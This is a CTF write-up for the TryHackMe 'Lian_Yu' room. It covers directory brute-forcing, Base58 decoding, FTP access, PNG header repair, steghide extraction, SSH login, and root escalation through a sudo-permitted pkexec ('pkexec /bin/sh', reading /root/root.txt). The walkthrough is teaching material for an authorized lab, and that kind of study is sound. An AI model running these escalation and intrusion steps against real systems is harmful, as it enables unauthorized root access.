# Lian_Yu — TryHackMe

    


## Room Info

| Field | Value |
|---|---|
| Platform | TryHackMe |
| Room | [Lian_Yu](https://tryhackme.com/room/lianyu) |
| Category | Web enumeration → layered steg/crypto → full box |
| Difficulty | Easy (rated), but genuinely twisty — CTF-flavored rather than a straight service-enum box |
| Time | ~45 min |
| Target IP | 10.130.153.208 |
| Tools used | `nmap`, `gobuster`, browser dev tools (`view-source`), CyberChef (Base58 decode), `ftp`, `hexdump`/`hexedit`, `steghide`, `unzip`, `ssh`, `sudo -l`, GTFOBins (`pkexec`) |

## Objective

An Arrow-themed CTF box, no guided tasks — just a target IP and a handful of questions to answer along the way. The whole chain is a scavenger hunt: a hidden web directory leads to a hidden sub-directory, which leads to a Base58-encoded ticket file, which leads to FTP credentials, which leads to three files — two of them deliberately corrupted or steganographically loaded — that eventually yield an SSH password and, from there, a straightforward sudo/GTFOBins root escalation.

## Concept Glossary

**Directory Extension Brute-Forcing (`gobuster -x`)**
Normal `gobuster dir` only finds paths that exist as-is in the wordlist. The `-x` flag tells it to also append specific file extensions to every wordlist entry and test those too (e.g. `admin` → also tries `admin.ticket`, `admin.php`, etc.). This is essential once you have a *hint* about a non-standard extension (like the room's `.ticket` files) — a default gobuster run would never find `green_arrow.ticket` since `.ticket` isn't a common web extension any wordlist assumes by default.

**`view-source:` for Hidden Comments**
HTML comments (`<!-- ... -->`) never render on the page itself but are fully present in the raw source. Checking `view-source:` (or dev tools) on every page, not just the ones that look interesting, is a habit that pays off constantly in CTFs — this room hides the entire next clue (`.ticket` extension hint) inside a comment on an otherwise near-empty page.

**Base58 Encoding**
Similar in spirit to Base64 (see the OhSINT and Madness glossaries) — an encoding scheme, not encryption, so it's fully and instantly reversible. Base58 specifically drops characters that are easy to visually confuse (`0`/`O`, `I`/`l`) and skips `+`/`/`, which is why it's the encoding Bitcoin addresses use — designed for humans to read/type/copy accurately, not for security. Seeing a token that looks like Base64 but is missing certain characters (no `0`, `O`, `I`, or `l`) is a strong signal it's actually Base58.

**File Signatures and Manually Repairing a Corrupted Header**
As covered in the Madness writeup, every real file format starts with fixed magic bytes — a genuine PNG always starts with `89 50 4E 47 0D 0A 1A 0A`. When a file has been *deliberately* corrupted (bytes changed, not just extension-renamed), a hex editor like `hexedit` lets you manually patch those bytes back to the correct signature byte-by-byte. This is a step up from Madness's file-mismatch trick — there, the file was a genuine PNG with the wrong extension; here, the file's actual header bytes were altered, so simply renaming it wouldn't fix anything. The file needs its magic bytes literally rewritten to become viewable again.

**Steganography Recap (`steghide`)**
Covered in depth in the Madness writeup — `steghide extract -sf <file>` pulls a passphrase-protected hidden payload out of a JPEG/BMP. Here it's used again on `aa.jpg`, extracting a `.zip` archive containing two more files rather than a single text file.

**`sudo -l` and GTFOBins**
`sudo -l` lists exactly what commands the current user is permitted to run as another user (commonly root) via `sudo`, and under what conditions (password required or not). Finding *any* entry here is always worth cross-referencing against [GTFOBins](https://gtfobins.github.io/) — a curated database of Unix binaries that can be abused to break out of restricted shells or escalate privileges, specifically organized by which `sudo`/SUID/capability scenario unlocks which technique. `pkexec` is a real, commonly-installed system binary (part of PolicyKit) meant for GUI privilege prompts — GTFOBins documents that when a user is permitted to run it via `sudo`, it can be pointed at an arbitrary command (`pkexec /bin/sh`, or in this case directly `pkexec cat /root/root.txt`) and will execute it as root, since `sudo` doesn't strip the elevated privileges pkexec itself carries.

## Walkthrough

### 1. Nmap Scan

```bash
nmap -sV -O 10.130.153.208
```



```
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8
80/tcp  open  http    Apache httpd
111/tcp open  rpcbind 2-4 (RPC #100000)
```

FTP and a web server are the two obvious starting points; `rpcbind` without a paired NFS port in this scan suggests it's likely not the intended path here (unlike VulnNet Internal).

### 2. Discovering the Hidden `/island` Directory

```bash
gobuster dir -u http://10.130.153.208/ -w /usr/share/wordlists/dirb/big.txt
```



```
island   (Status: 301) [--> http://10.130.153.208/island/]
```

### 3. The `/island` Page — A Code Word



```
Ohhh Noo, Don't Talk.............
I wasn't Expecting You at this Moment. I will meet you there
You should find a way to Lian_Yu as we are planed. The Code Word is:
vigilante
```

`vigilante` is flagged as important immediately — it turns out to be the FTP username used later.

### 4. Deeper Enumeration — Finding `/island/2100`

```bash
gobuster dir -u http://10.130.153.208/island/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```



```
2100   (Status: 301) [--> http://10.130.153.208/island/2100/]
```

Directories can nest — the same brute-force technique that found `/island` off the root needs to be repeated against every new directory discovered, not just run once at the top level.

### 5. `view-source` Reveals the Next Hint



```html
<iframe width="640" height="480" src="https://www.youtube.com/embed/X8ZiFuW41yY"></iframe>
<!-- you can avail your .ticket here but how? -->
```

The visible page is just an embedded video — the actual clue (`.ticket` extension) is sitting in an HTML comment that never renders.

### 6. Extension-Aware Brute Force Finds the Ticket File

```bash
gobuster dir -u http://10.130.153.208/island/2100/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .ticket
```



```
green_arrow.ticket   (Status: 200) [Size: 71]
```

### 7. Reading the Ticket — A Base58 Token



```
This is just a token to get into Queen's Gambit(Ship)

RT▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
```

### 8. Decoding the Token (CyberChef — Base58)



Running the token through a **Base58 Decode** recipe (not Base64 — the character set doesn't fit standard Base64) reveals the plaintext, which turns out to be the FTP password.

### 9. FTP Login and File Retrieval

```bash
ftp -n 10.130.153.208
ftp> user vigilante
ftp> [Base58-decoded password]
```



```
230 Login successful.
ftp> ls
Leave_me_alone.png   511720 bytes
Queen's_Gambit.png   549924 bytes
aa.jpg                191026 bytes
ftp> get Leave_me_alone.png
ftp> get Queen's_Gambit.png
ftp> get aa.jpg
```

Three files down — worth noting the username `vigilante` from step 3 and the Base58-decoded password from step 8 are both required together; neither alone gets you in.

### 10. A Deliberately Corrupted PNG Header

```bash
hexdump -C -n 8 Leave_me_alone.png
```



```
58 45 6f ae 0a 0d 1a 0a
```

A real PNG must start with `89 50 4E 47 0D 0A 1A 0A`. This isn't even close — the bytes have been deliberately scrambled, not just extension-renamed (unlike the Madness room's file-mismatch trick). Opening it with `hexedit` and manually correcting the first bytes:



```
89 50 4E 47 0D 0A 1A 0A   ← corrected
```

### 11. Viewing the Repaired Image



```
Just Leave me alone
Here take it what you want
pa▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
```

Another password fragment, revealed only because the header was manually patched back to a valid PNG signature first.

### 12. Steganography on `aa.jpg`

```bash
steghide extract -sf aa.jpg
```



```
wrote extracted data to "ss.zip".
```

```bash
unzip ss.zip
```
```
inflating: passwd.txt
inflating: shado
```

```bash
cat passwd.txt
```
```
This is your visa to Land on Lian_Yu # Just for Fun **
a small Note about it
Having spent years on the island, Oliver learned how to be resourceful and
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.
```

Flavor text — the real payload is the second extracted file:

```bash
cat shado
```
```
M3▓▓▓▓▓▓▓
```

The filename `shado` (echoing `/etc/shadow`) is a strong hint about what this value is for — an SSH password.

### 13. SSH Login as `slade`

```bash
ssh slade@10.130.153.208
```



```
Way To SSH...
Loading.........Done..
Connecting To Lian_Yu  Happy Hacking

WELCOME2 LIAN_YU
slade@LianYu:~$
```

Username `slade` (Slade Wilson / Deathstroke, thematically tying back to the room's Arrow storyline) with the password recovered from the `shado` file.

### 14. Capturing `user.txt`

```bash
ls
cat user.txt
```



### 15. Privilege Escalation Check

```bash
sudo -l
```



```
User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```

`slade` can run `pkexec` as root via `sudo` (with a password prompt). Cross-referencing GTFOBins:



```
pkexec /bin/sh
```

GTFOBins confirms `pkexec`, when runnable via `sudo`, spawns a fully-privileged shell — since `sudo` doesn't strip the elevated context `pkexec` itself is designed to carry.

### 16. Root Flag

```bash
sudo /usr/bin/pkexec cat /root/root.txt
```



```
Mission accomplished

You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE.
```

**Root confirmed** — flavor text retrieved directly as root via the `pkexec` GTFOBins technique, no shell escape or exploit chain needed beyond the sudo misconfiguration itself.

## Room Questions Answered

| Question | Answer |
|---|---|
| What is the Web Directory you found? | `/island` (leading to `/island/2100`) |
| What is the file name you found? | `green_arrow.ticket` |
| What is the FTP Password? | Base58-decoded value from the `.ticket` token *(redacted — see screenshot 08)* |
| What is the file name with SSH password? | `shado` (extracted via `steghide` from `aa.jpg`) |
| user.txt | Captured — see screenshot 15 |
| root.txt | Captured via `pkexec` — see screenshot 18 |

## Full Lessons Learned

This room is a genuine scavenger hunt disguised as a pentest box, and it strings together nearly every "check the thing nobody checks" habit into one chain:

1. **Directory brute-forcing isn't a one-shot action.** Every newly discovered directory needs its own gobuster run — `/island` only led to `/island/2100` because it got scanned again, not just visited once.
2. **`view-source` should be reflexive, not situational.** The entire next step of the chain (`.ticket` extension) was sitting in an HTML comment on a page that otherwise looked like a dead end (just an embedded video).
3. **Not every encoded string is Base64.** Base58's missing characters (`0`, `O`, `I`, `l`) are a visual tell worth recognizing on sight — trying Base64 first on a Base58 string just produces garbage or an error, costing time.
4. **A "corrupted" file isn't always just mis-renamed.** Madness taught "check the magic bytes"; this room escalates that to "the magic bytes might be *wrong on purpose*, and you have to manually fix them yourself" — a meaningfully different skill (hex editing) than just renaming an extension.
5. **`sudo -l` should be one of the very first commands run on any new shell**, immediately after basic `id`/`whoami`/`hostname` recon — and any result should get checked against GTFOBins before assuming a rabbit hole exploit is needed. This room's root escalation was a two-command process once `sudo -l` was actually run.

